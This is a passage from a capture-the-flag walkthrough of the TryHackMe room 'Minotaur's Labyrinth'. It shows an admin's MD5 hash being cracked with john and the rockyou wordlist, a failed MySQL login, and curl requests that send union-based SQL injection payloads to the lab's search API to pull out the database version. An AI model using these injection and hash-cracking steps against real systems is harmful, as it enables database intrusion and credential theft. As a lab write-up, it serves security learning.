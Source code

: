 ```json
            "idCreature": "4",
            "nameCreature": "Centaurus",
            "passwordCreature": "ea5540126c33fe653bf56e7a686b1770"
        }
    ]
]
```

Maybe we should crack `M!n0taur`'s password hash? Because he is an admin:

```html
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nano m\!n0taur  
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 m\!n0taur
[...]
{Redcated}       (M!n0taur)
```

Cracked!

Let's connect to MySQL:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# mysql -uM\!n0taur -p{Redacted} -h $RHOSTS
ERROR 1130 (HY000): Host 'ip-10-18-61-134.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
```

Nope...

Let's take a step back. Since we found a SQL Injection vulnerability, why not keep exploiting it?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT 1,2,3-- -"  

		[[{"idPeople":"1","namePeople":"2","passwordPeople":"3"}]]
```

Vulnerable to **Union-based SQL Injection**.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,version()-- -"

		
		
		[[{"idPeople":null,"namePeople":null,"passwordPeople":"10.4.19-MariaDB"}]]
```
